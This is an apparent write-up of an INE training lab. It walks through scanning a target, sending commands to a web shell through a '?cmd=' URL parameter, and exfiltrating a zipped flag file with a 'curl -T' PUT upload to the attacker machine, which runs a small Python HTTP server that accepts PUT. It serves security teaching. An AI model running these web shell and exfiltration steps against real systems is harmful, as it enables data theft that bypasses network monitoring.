


# Data Exfiltration

## 🔬

The Kali OS GUI instance is web hosted on the INE website, where:

- You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a *low privilege user* (i.e. student). A sensitive flag file is kept in a zipped archive file in the *student user's home directory*.
- There is a monitor process running on the server machine that blocks most protocols *except HTTP protocol* (when using port **80**).
- The API endpoint is accessible at `demo.ine.local` domain.

*Objective*: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

***Tools*** used:

- **`nmap`**, **`curl`**
- A web browser
- Python Scripting

## SOLUTION

- Check Kali instance IP address and ping the vulnerable server.

  - **`ip -br -c a`**
  - **`ping demo.ine.local`**

  ```shell
  root@INE:~# ip -br -c a
  eth1@if126466    UP             192.70.33.2/24 
  lo               UNKNOWN        127.0.0.1/8 
  ip_vti0@NONE     DOWN           
  eth0@if126463    UP             10.1.0.17/16
  
  root@INE:~# ping demo.ine.local
  PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
  64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
  ```

- The web server IP is `192.70.33.3` 

### nmap

- Perform an `nmap` scan to check open ports on the server:

  - *Simple scan*:

    **`sudo nmap demo.ine.local`**

  ```shell
  root@INE:~# sudo nmap demo.ine.local
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE
  8000/tcp open  http-alt
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
  ```

  - *Advanced scan*:
    
    **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**
    
    - **`-sC`** - for default scripts
    - **`-sV`** - probe open ports to determine service/versions info
    - **`-oA`** - output all 3 major formats in a directory

  ```shell
  root@INE:~# less nmap/dataexfiltration.nmap
  
  # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE VERSION
  8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
  |_http-title: Site doesn't have a title (text/html; charset=utf-8).
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
  ```

  - A Python2 web server (Werkzeug) is running on open port **8000**.

- Check the response from a browser by visiting `http://demo.ine.local:8000/`



### Web shell commands

- Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  - **`http://demo.ine.local:8000/?cmd=pwd`**


  - **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:


- *flag.zip* file must be transferred to the Kali instance.

- Check if `curl` command is present on the server

  - **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:


  - `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

  > -T, --upload-file <file>
  >               This transfers the specified local file to the remote URL. If  there  is  no
  >               file  part  in the specified URL, curl will append the local file name. NOTE
  >               that you must use a trailing / on the last directory to really prove to Curl
  >               that  there is no file name or curl will think that your last directory name
  >               is the remote file name to use. That will most likely cause the upload oper‐
  >               ation to fail. If this is used on an HTTP(S) server, the PUT command will be
  >               used.

### Python HTTP server

- Run a HTTP server on the local machine using python:
  - **`python -m SimpleHTTPServer 80`**

  - The Kali instance IP is `192.70.33.2`

  - `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  - *Error response - Unsupported method ('PUT')*


- (Same error with **`python3 -m http.server 80`**)
- Create a Python script to run an *HTTP server supporting PUT*.

  ```shell
  root@INE:~# which python
  /usr/bin/python
  
  root@INE:~# nano httpserver.py
  ```

  - Add the following code to the htttserver.py script:

  ```python
  #!/usr/bin/python
  import SimpleHTTPServer
  import BaseHTTPServer
  
  class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
      def do_PUT(self):
          print self.headers
          length = int(self.headers["Content-Length"])
          path = self.translate_path(self.path)
          with open(path, "wb") as dst:
              dst.write(self.rfile.read(length))
  
  
  if __name__ == '__main__':
      SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
  ```

  > *Thanks to [BigBlueHat](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) for the script.*

  - Run the SimpleHTTP server using the script:
    - **`python httpserver.py 80`**
  - Try again the PUT request
    `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
    - Archive flag.zip was received by the server.



- Stop the running HTTP server and check the folder for the downloaded file.

  - **`ls -l`**


- Unzip the archive and retrieve the flag:

  - **`unzip flag.zip`**
  - **`cat flag/flag.txt`**


> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
